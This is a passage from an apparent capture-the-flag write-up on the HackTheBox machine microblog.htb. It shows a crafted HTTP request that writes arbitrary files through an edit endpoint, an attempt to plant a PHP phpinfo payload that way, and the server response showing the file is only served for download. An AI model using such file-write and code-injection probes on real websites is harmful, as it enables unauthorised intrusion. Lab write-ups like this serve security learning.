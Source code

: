 
    POST /edit/ HTTP/1.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Host: efjexomlsilayjqmkqjj.microblog.htb
    Cookie: username=90jlpppeeqlelf3fuc5q3efib2
    Content-Length: 30
    Content-Type: application/x-www-form-urlencoded

    id=0xdf.txt&txt=0xdf+was+here!



It shows up on the page:

![](/img/image-20230515151034665.png)

And visiting `/content/0xdf.txt` downloads the text file.

I'll try with:



    id=0xdf.php&txt=<?php+phpinfo();+?>



It seems to work, but visiting `/content/0xdf.php`, it just downloads
the file, doesn't execute it. In Burp, I'll look at the response:



    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Mon, 15 May 2023 19:13:20 GMT
    Content-Type: application/octet-stream
    Content-Length: 58
    Last-Modified: Mon, 15 May 2023 19:13:04 GMT
    Connection: close
    ETag: "64628440-3a"
    Content-Disposition: attachment; filename=0xdf.php
    Accept-Ranges: bytes
